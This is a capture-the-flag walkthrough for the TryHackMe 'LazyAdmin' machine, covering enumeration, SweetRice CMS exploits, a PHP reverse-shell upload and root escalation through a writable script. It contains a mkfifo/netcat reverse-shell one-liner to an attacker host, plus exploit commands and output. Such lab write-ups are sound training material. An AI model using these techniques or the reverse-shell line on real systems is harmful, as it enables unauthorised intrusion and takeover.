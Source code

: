 # [LazyAdmin - Easy linux machine to practice your skills](https://tryhackme.com/r/room/lazyadmin)

## Enumeration

### Nmap-scan
```
kali@kali:~/CTFs/lazyadmin$ nmap -sC -sV -Pn $TARGET_IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 08:46 EDT
Nmap scan report for <TARGET-IP>
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds
```
- open ssh port
- open http port, httpd seems to be using the default config

**Nmap enumeration scan**
```
kali@kali:~$ nmap --script=http-enum $TARGET_IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 09:10 EDT
Nmap scan report for <TARGET-IP>
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /content/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 5.84 seconds
```

### Gobuster
1. DNS-scan
```
kali@kali:~$ gobuster dns -d $TARGET_IP -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     <TARGET-IP>
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
                                                                                                                                       
kali@kali:~$ 
```

2. DIR-scan
```
kali@kali:~$ gobuster dir -u $TARGET_IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --no-error 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <TARGET-IP>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> <TARGET-IP>/content/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

### Inspecting the HTTP-website
- default Apache2 Ubuntu landing page

#### Inspecting /content
- indicates 'SweetRice CMS' is used

![sweetrice](images/content_page.png)

## Exploiting SweetRice CMS
- [SweetRice 1.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40716) -> allows us to upload a reverse-shell, valid login credentials required
- [SweetRice 1.5.1 - Backup Disclosure](https://www.exploit-db.com/exploits/40718) -> */content/inc* is accessable, provides backup data

### Reviewing the backup file

![backup_disclosure](images/mysql_backup.png)

```
kali@kali:~/CTFs/lazyadmin/mysql_backup$ curl <TARGET-IP>/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql -o mysql_backup.sql
```

![mysql_backup](mysql_backup.png)

- looks like the username is "manager" and the password is given as md5-hash
- https://md5decrypt.net/en/ -> "Password123"

### File-Upload vulnerability

1. [prepare a reverse shell](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php?ref_type=heads)
2. get the exploit up and running (https://www.exploit-db.com/exploits/40716)
```
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : <TARGET-IP>/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://<TARGET-IP>/content/attachment/php-reverse-shell.php
```

- file does not appear in */content/attachment/*, the WebServer most likely filters *.php files
- uploading the script as *.phtml works

![upload](images/revshell.png)

3. Set up a listener and execute the uploaded script
```
kali@kali:~$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 37486
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 14:58:23 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm-256color
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/$   
```

## Catching the user-flag
```
cd /home/itguy && cat user.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
www-data@THM-Chal:/home/itguy$ 
```

## Catching the Root-Flag
```
ww-data@THM-Chal:/home/itguy$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
- backup.pl can be executed as root via `sudo` 
```
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
- if */etc/copy.sh* is writeable, it can be used to create another reverse-shell (as root)
```
www-data@THM-Chal:/home/itguy$ cd /etc && ls -lisa | grep copy.sh
1050508  4 -rw-r--rwx   1 root root      83 May 15 15:32 copy.sh
```
- it is writeable
```
www-data@THM-Chal:/etc$ cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ATTACKER-IP> 1337 >/tmp/f
www-data@THM-Chal:/etc$ 
```
-> setup a listener `nc -lvnp 1337` on the attacker-machine `www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl`

```
kali@kali:~$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 50204
root@THM-Chal:/etc# cat /root/root.txt
cat /root/root.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
root@THM-Chal:/etc# 
```

